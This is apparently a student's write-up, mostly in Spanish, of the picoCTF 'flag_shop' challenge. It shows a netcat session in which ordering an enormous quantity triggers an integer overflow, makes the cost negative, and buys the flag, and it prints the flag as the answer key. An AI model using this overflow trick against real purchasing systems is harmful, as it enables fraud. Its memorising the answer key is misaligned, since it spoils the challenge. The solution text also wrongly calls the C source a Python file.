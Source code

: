 # flag_shop
## Description

There's a flag shop selling stuff, can you buy a flag? [Source](https://jupiter.challenges.picoctf.org/static/253c4651d852ac6342752ff222cf2a83/store.c). Connect with `nc jupiter.challenges.picoctf.org 9745`.

## Hints

* Two's compliment can do some weird things when numbers get really big!

## Solución

Abrimos nuestra terminal de ubuntu y descargamos el archivo de pyhton llamado: **store.py** y lo ubicamos en nuestra carpeta de linux, después ingresamos nuestro link de nc.
	En seguida ingresamos los números 1 y 2, dependiendo de lo que nos pregunte y el dinero que se pida, por ejemplo si pide ingresar ceros después del 1, como por ejemplo `100000000000000000` y nos muestra nuestra respectiva flag.

```
jazmin@DESKTOP-1CBQJ6D:~/FIS$ nc jupiter.challenges.picoctf.org 9745
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
1



 Balance: 1100


Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
1
These knockoff Flags cost 900 each, enter desired quantity
1

The final cost is: 900

Your current balance after transaction: 200

Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one1

Not enough funds for transaction


Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one10000000000000000
jazmin@DESKTOP-1CBQJ6D:~/FIS$ nc jupiter.challenges.picoctf.org 9745
Welcome to the flag exchange
We sell flags

3. Check Account Balance

4. Buy Flags

5. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
1
These knockoff Flags cost 900 each, enter desired quantity
100000000000000000

The final cost is: -651689984

Your current balance after transaction: 651691084

Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one1
YOUR FLAG IS: picoCTF{m0n3y_bag5_65d67a74}
Welcome to the flag exchange
We sell flags

3. Check Account Balance

4. Buy Flags

5. Exit

 Enter a menu selection
```

### Respuesta: picoCTF{m0n3y_bag5_65d67a74}